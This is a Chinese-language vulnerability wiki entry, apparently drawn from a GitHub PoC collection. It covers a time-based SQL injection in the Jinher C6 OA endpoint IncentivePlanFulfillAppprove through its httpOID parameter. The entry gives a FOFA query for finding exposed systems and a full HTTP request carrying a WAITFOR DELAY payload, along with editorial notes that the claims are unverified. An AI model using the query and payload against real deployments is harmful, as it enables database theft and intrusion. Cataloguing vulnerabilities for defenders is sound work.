

# 金和C6 IncentivePlanFulfillAppprove httpOID SQL 注入

## 条目说明

- 对象与具体问题：金和C6；IncentivePlanFulfillAppprove httpOID SQLi
- 版本、配置及部署条件：无build
- 认证与权限前提：文称未授权但样例有会话，需对照
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 单3秒截图判据弱，在野已知/影响广无出处
- 接口Appprove拼写按真实路由核实而非自动纠正
- 与293不同参数/端点

## 操作风险

现有材料未完整列明副作用；示例不保证只读或无状态变化。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

## 漏洞描述

金和OA-C6 在/IncentivePlanFulfillAppprove 接口存在SQL注入漏洞，未经身份验证的恶意攻击者利用 SQL 注入漏洞获取数据库中的信息（例如管理员后台密码、站点用户个人信息）之外，攻击者甚至可以在高权限下向服务器写入命令，进一步获取服务器系统权限。

## 影响版本

金和网络-金和OA

## **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 原文提供部分细节 | 见技术资料 | 未独立核验 | 待来源核实 |

### 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

## 漏洞复现

FOFA：app="金和网络-金和OA"

POC/EXP：

```http
GET /C6/JHSoft.Web.IncentivePlan/IncentivePlanFulfillAppprove.aspx/?httpOID=1;WAITFOR+DELAY+%270:0:3%27-- HTTP/1.1
Host: 127.0.0.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: ASP.NET_SessionId=hrhxyprne4owilb2fvywcbjc; myie=false
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
```





## 漏洞修复

关注厂商官网动态，及时更新补丁信息。


---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
